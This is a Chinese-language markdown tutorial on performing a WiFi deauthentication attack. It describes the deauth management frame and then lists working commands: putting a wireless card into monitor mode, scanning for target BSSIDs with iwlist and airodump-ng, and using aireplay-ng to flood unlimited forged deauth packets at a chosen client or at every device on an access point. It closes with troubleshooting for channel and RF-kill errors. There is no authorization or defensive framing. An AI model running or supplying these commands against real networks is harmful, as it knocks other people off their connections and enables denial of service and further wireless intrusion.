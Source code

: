 # 解除WiFi认证(断开连接)攻击 Deauthentication
## Deauthentication
* ```
    Deauthentication（断开连接）是一种无线网络管理帧（Management Frame）的类型，
    用于通知客户端设备断开与 接入点 的连接。它是IEEE 802.11(数据包类型)标准中定义的一种帧类型。

## Deauthentication Attck 原理
* 发送伪造的 断开连接数据包 给client。
## 前提
* 需要带有监听功能的wifi适配器
* 确认你的无线网卡支持监控模式（monitor mode）和数据包注入（packet injection）。
* ```
    # 关闭wifi
    sudo ifconfig wlan0 down
    # 切换为监听模式
    sudo iw wlan0 set monitor none

    # iwconfig 查看是否为监听模式
    

## aireplay-ng工具
* aireplay-ng 是一款强大的网络攻击工具，用于`无线网络`的安全测试和攻击。
* ```
    # 扫描wifi网络得到BSSID,ESSID
    sudo rfkill unblock wifi
    sudo ifconfig wlan0 up  
    sudo iwlist wlan0 scan | grep -i 'cell\|bssid\|essid'

    # 注意 bssid是唯一标识符(可以是mac)，essid是wifi网络的名称
* ```
    # 扫描附近的无线网络(同上)
    sudo aireplay-ng -9 wlan0
    # 或者
    sudo airodump-ng wlan0
* ```
    # 发起断开连接攻击
    # --deauth 0表示发起无限个包
    # -c 可用逗号分隔开多个mac值，对多个设备进行断开wifi
    sudo aireplay-ng --deauth 0 -a <目标BSSID> -c <目标客户端MAC地址> wlan0
* ```
    # 断开所有设备wifi
    sudo aireplay-ng --deauth 0 -a <目标BSSID> wlan0

## 报错
* ```
    # wrong info: wlx0092c38a9764 is on channel 1, but the AP uses channel 7
    # 在进行攻击时，需要保持在统一信道(连wifi也一样)

    # 查看wifi适配器当前处于的信道
    sudo iw wlan0 info

    # 设置信道
    sudo iwconfig wlan0 channel 7
    # or
    sudo iw wlan0 set channel 9

# ```
    # wrong info: Waiting for beacon frame (BSSID: 04:95:E6:51:64:A1) on channel 7 ,No such BSSID available.
    # 当进行长时间攻击(20~min)时，路由器会自动更换信道进行通信。
    # 查看当前wifi信道并切换



* ```
    # 报错 ioctl(SIOCSIFFLAGS) failed: Operation not possible due to RF-kill

    # 使用命令
    sudo rfkill unblock wifi

